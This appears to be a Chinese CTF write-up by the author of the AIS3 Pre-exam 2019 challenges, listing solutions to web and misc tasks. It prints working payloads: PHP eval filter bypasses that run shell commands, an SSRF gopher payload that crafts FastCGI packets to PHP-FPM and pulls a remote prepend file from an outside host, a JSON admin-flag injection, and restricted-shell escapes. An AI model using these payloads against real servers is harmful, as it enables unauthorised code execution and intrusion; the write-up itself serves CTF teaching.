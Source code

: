 # AIS3 Pre-exam 2019

佛系出題，每題都不擋非預期，每題都有多種簡單解法

## Web

### Simple Window

- **Solved**: 316
- 預期難度: ☆ ~ ★

<br>

- 訪問`/`時會安裝 Service Worker
- 然後把`/flag` cache成別的頁面
- 把Service Worker取消或是關掉js就可
- 或是在第一次安裝時，它其實會去fetch `/flag`內容，你只要這時候抓這個response就行

### 3v4l

- **Solved**: 28
- 預期難度: ★★ ~ ★★★

<br>

- 這題會把`$_GET["#"]`丟進`eval`跑
    - 瀏覽器送記得urlencode一下
    - `#` => `%23`
- 限制長度不能超過 18

- 解法一 (預期解)
    - PHP的`NOT`運算
    - `~%8C%86%8C%8B%9A%92` = `system`
    - `~%93%8C%DF%D0` = `ls /`
    - 組合起來: `(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);`
        - 就等於`system("ls /");`
        - 這邊可以得到flag name: `here_is_your_flag`
    - 最後去讀 flag:
        - `(~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%97%D5);`
        - `exec("cat /h*");`

- 解法二
    - 忘記擋 ``` `` ```
    - 直接``` `/???/??? /*`;  ```
    - 相當於``` `/bin/cat /*`; ```

- 解法三
    - ``` `\\143\\141\\164%20/*`; ```
    - 等同``` `cat /*`; ```

- 解法四
    - 來自 @cyku 大佬 
    - ``` `{${~%A0%B8%BA%AB}[0]}`; ```
    - `~%A0%B8%BA%AB` =  `_GET`
    - 把`$_GET[0]`拿去執行
    - 完整getshell

### BabySSRF 

- **Solved**: 3
- 預期難度: ★★★ ~ ★★★★

<br>

- 這題很單純把輸入的URL拿去curl跑
- 然後擋掉`file`, `flag`, `index.php`, metadata等關鍵字
    - `gopher://`沒擋
    - 可以任意 SSRF 構造 TCP packet
- 從`/robots.txt`可以找到`info.php`
    - 單純 `phpinfo`
    - 這邊就暗示後端是用 PHP-FPM 跑的

- 所以目標很明確，就是構造 FastCGI Protocol 去 RCE
    - 但限制長度只能 `236 Bytes`

- 構造 FastCGI Protocol 很容易，網路上隨便找都有 Payload generator
    - 但長度一般都很長，必須想辦法壓下來

- 壓 Payload 長度
    - `127.0.0.1` 可以換成 `0`
    - urlencode處理好 (只有 NULL Byte 和換行需要Double encode)
    - 大部分 Params 都能拔掉
        - 重要的只有`REQUEST_METHOD`和`PHP_VALUE`
        - 如果要在單個Request就執行`prepend_file`的話，要加`SCRIPT_FILENAME`
        - 多個Request的話，可以拔掉`SCRIPT_FILENAME`，先把設定寫進去
            - 譴責這種解法
            - 需要一直狂送 Payload
            - 會把全部 fpm process 設定寫掉，影響別人解題
    - 買個短一點的 domain (X
        - 看看某海狗長度5的domain (貧窮限制了我的想像力)
    - 剩下就慢慢看 FastCGI 結構

- 範例 Payload:
    - `gopher://0:9000/_%01%01%2500%01%2500%08%2500%2500%2500%01%2500%2500%2500%2500%2500%2500%01%04%2500%01%2500%7F%2500%2500%0E%03REQUEST_METHODGET%0F%16SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Finfo.php%09%3APHP_VALUEallow_url_include%3DOn%250Aauto_prepend_file%3Dhttp%3A%2F%2Fkaibro.tw%01%04%2500%01%2500%2500%2500%2500%01%05%2500%01%2500%2500%2500%2500`
    - 打開`allow_url_include`
    - 設定`auto_prepend_file=http://kaibro.tw`

## Misc

### Are you admin ?

- **Solved**: 181
- 預期難度: ★★ ~ ★★☆ 

<br>

- 這題會去用JSON parse一個字串
- 字串前後的`name`和`age`都可控
    - age不能用英文字
    - 但非英文都可 (包含特殊符號)
- 中間有一個`"is_admin":"no"`
- 目標是把 parse 完的`is_admin`蓋成`yes`

- 解法一 (預期解)
    - Ruby json 可以用註解
    - name: `","is_admin":"yes",/*`
    - age: `*/"@":"@`
- 解法二
    - 用`{}`去包`is_admin`
    - name: `","is_admin":"yes","x":{"":"`
    - age: `"},"":"`

### Pysh

- **Solved**: 64
- 預期難度: ★★ ~ ★★★

<br>

- 這題限制你不能用大部分小寫英文和一堆特殊符號
- 目標是想辦法用剩下的字元去 RCE

- 解法一 (預期解)
    - `read`預設結果會存放到`$REPLY`
    - 所以`read;$REPLY`就能RCE
    - 也能`read a;$a`
- 解法二
    - `$SHELL`
    - 最多人用
- 解法三
    - `$BASH`
- 解法四
    - ``` a=`pr -T`;$a ```


----

p.s. 如果有人有其他解法歡迎發PR給我 <3
